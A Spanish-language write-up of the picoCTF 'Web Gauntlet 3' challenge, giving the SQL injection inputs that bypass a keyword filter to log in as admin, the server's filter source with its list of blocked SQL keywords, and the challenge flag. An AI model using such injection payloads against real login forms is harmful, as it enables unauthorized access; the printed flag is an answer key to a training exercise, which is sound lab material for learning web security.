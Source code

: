 # Web Gauntlet 3
![Descripcion del CTF](img/description.png)

## Descripción
Last time, I promise! Only 25 characters this time. Log in as admin Site: [http://mercury.picoctf.net:32946/](http://mercury.picoctf.net:32946/) Filter: [http://mercury.picoctf.net:32946/filter.php](http://mercury.picoctf.net:32946/filter.php)

## Resolucion
Nos vuelven a dar dos enlaces, el primero a un formulario de login y el segundo la lista de caracteres filtrados. Como la única diferencia con Web Gauntlet II es la extensión que podemos introducir, podemos reusar los mismos campos:

Usuario: ad'||'min
Y como contraseña: 'glob '*

Al introducirlo y entrar en filter.php encontraremos el siguiente código:

```
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```

Obteniendo así la flag: 'picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}'